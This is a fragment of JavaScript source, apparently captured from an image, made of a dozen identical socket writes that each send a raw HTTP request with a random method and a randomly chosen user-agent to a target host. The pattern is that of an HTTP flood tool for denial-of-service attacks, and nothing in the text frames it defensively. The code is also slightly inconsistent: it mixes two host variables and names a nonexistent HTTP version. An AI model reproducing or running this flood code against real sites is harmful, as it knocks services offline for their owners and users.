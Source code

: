 s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
        s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');